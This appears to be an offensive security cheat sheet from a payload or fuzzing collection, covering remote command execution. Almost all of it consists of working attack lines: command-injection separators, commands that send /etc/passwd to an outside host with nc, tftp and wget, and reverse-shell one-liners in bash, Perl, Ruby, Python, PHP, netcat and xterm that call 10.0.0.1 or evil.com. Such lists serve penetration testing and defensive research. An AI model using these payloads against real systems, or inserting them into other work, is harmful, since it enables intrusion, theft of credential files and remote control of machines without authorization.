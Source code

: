 Remote Command Exec Cheatsheet

File notes:

source-disc-cmd-exec-traversal.fuzz.txt
# single directory traversals that have caused showcode or command exec issues in the past
# GET /path/*payload*relative/path/to/target/file/


   Executing Commands

Seperating Commands: 
blah;blah2

PIPEZ: 
blah ^ blah2

AND: 
blah && blah2

OR: 
FAIL || X

OR: 
blah%0Dblah2%0Dblah3

Backtick: 
`blah`

Background: 
`blah & blah2`



   Exfiltrating Files / Data

FTP: 
Make a new text file, and echo and then redirect to FTP

NC: 
nc -e /bin/sh

NC: 
echo /etc/passwd  | nc host port

TFTP: 
echo put /etc/passwd | tftp host

WGET: 
wget --post-file /etc/passwd



   One-Liner Reverse Shells


On the listener: 
$ nc -l -p 8080 -vvv

On the remote host...
Bash:
$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

$ exec 5<>/dev/tcp/evil.com/8080
$ cat <&5 | while read line; do $line 2>&5 >&5; done

Perl:
$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Ruby:
$ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Python:
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP:
$ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat:
$ nc -e /bin/sh 10.0.0.1 1234

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

XTERM:
Server: 
$ xterm -display 10.0.0.1:1
Listener:
$ Xnest :1
$ xhost +targetip



More docs: /docs/attack-docs/remote-cmd-exfiltration/
